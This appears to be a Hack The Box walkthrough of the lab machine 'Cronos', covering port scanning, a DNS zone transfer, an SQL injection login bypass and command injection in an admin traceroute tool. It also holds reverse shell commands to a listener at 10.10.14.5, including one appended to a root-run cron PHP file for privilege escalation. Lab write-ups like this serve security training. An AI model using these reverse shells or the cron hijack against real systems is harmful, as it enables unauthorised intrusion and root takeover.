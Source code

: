 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.13 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,53,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.13 -p22,53,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 09:12 +07
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

### DNS Server

At port 53, I used `nslooup` to enum ip 10.10.10.13 and got the name server `ns1.cronos.htb`

```
### DNS Enumeration (53) ############################
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Add domain `ns1.cronos.htb` and `cronos.htb` to file `/etc/hosts` and `dig` enum.

```
┌──(Hades㉿10.10.14.5)-[2.0:21.4]~/scripting
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
<snip>
```

### Laravel Web App

There is defaul Apache page at port 80, but after add domain `cronos.htb` and go to it, I got a web application power by Laravel

![](images/2.png)

Add `admin.cronos.htb`, `www.cronos.htb` to file `/etc/hosts`


```
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htb ns1.cronos.htb
```

![](images/3.png)

## Foothold

### SQL Injection

At admin page, I try some payload SQLi to bypass authentication and I got it.

![](images/4.png)

### Command Injection

Admin page is Net Tool support `traceroute` server, but in the command box, I inject command `ls` and got the result.

![](images/5.png)

Inject command `bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'` and got the remote code execution.

```
┌──(Hades㉿10.10.14.5)-[2.9:23.4]~/walkthrough/hackthebox/cronos
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53806
sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Scheduled Tasks

Add file `/etc/crontab`, I know that the system running file `/var/www/laravel/artisan` with php command as root.

```
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Check permission file `/var/www/laravel/artisan`, This file owned by www-data, can easy to modify it.

```
www-data@cronos:/var/www$ ls -lh /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

At simple system command to execute shell code in `/var/www/laravel/artisan`.

```
echo system("bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'"); >> /var/www/laravel/artisan
```

Waiting 1 minute, I have root shell at my listener.

```
┌──(Hades㉿10.10.14.5)-[2.9:25.2]~/priescal/PEASS/linPEAS
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53762
sh: 0: can't access tty; job control turned off
# whoami
root
```